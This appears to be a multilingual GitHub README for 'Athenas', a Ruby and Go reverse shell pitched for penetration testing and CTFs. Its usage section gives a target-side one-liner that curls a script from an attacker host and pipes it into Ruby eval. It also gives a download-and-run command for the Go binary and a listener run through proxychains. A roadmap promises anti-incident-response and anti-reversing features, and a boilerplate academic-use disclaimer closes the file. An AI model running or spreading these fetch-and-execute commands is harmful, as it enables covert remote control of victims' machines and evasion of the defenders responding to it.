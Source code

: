 # Athenas
🇧🇷 - Uma reverse shell construída em ruby para o testes de penetração. Agora para ambientes onde pode ser utilizado a linguagem interpretada e compilada 
Utiliza um sistema onde a porta de conexão é fornecida pelo alvo, e não pelo atacante, possibilitando o uso de proxy's e conexões em intervalos, devido ao loop de execução.


🇬🇧 -A reverse shell built in Ruby for penetration testing. Now for environments where the interpreted and compiled language can be used.
It uses a system where the connection port is provided by the target, not the attacker, allowing the use of proxies and connections at intervals, due to the execution loop.

🇨🇳 一个用Ruby编写的用于渗透测试的反向shell。现在适用于可以使用解释型和编译型语言的环境。
它使用一个系统，其中连接端口由目标提供，而不是攻击者提供，允许使用代理和在间隔内进行连接，这是由于执行循环的原因。

## Usage:
> RSA:
```
 # Generate the listener private key
openssl genrsa -out listener_private_key.pem 8192

  # Generate the listener public key
openssl rsa -in listener_private_key.pem -pubout -out listener_public_key.pem

  # Generate the server private key
openssl genrsa -out server_private_key.pem 8192

  # Generate the server public key
openssl rsa -in server_private_key.pem -pubout -out server_public_key.pem
```
> Target:
```
curl http://<attacker_ip>/target.rb | ruby -e 'eval(STDIN.read)'
#or just download it.

=========================
        GOLANG:
=========================
go build main.go

curl http://<attacker_ip>/target | chmod 777 target | /path/to/target --port <port>

=========================
```

> Attacker
```
ruby attacker.rb
#or
proxychains4 attacker.rb
=========================
        GOLANG:
=========================
go build aaa.go

./file --server <server> --port <port>

```
### soon:
* Binary files.
* anti incident-response.
* anti reversing.
* 
# Disclaimer
A perfect reverse shell for CTF's.

This repository and the tool contained within it are provided strictly for academic and research purposes. The use of this tool for any purpose that violates applicable laws or local, national, or international regulations is strictly prohibited. The contributors to this repository bear no responsibility for how this tool is used and the consequences arising from its use.

By using this tool, you agree to do so strictly for academic purposes and acknowledge that you are responsible for complying with all applicable laws and regulations during the use of this tool. This repository and its contributors do not endorse or promote any illegal or harmful activities.

Any misuse of this tool is not the responsibility of the contributors to this repository. If you do not agree with these terms or are unwilling to use it strictly for academic purposes, please do not proceed with the use of this tool.
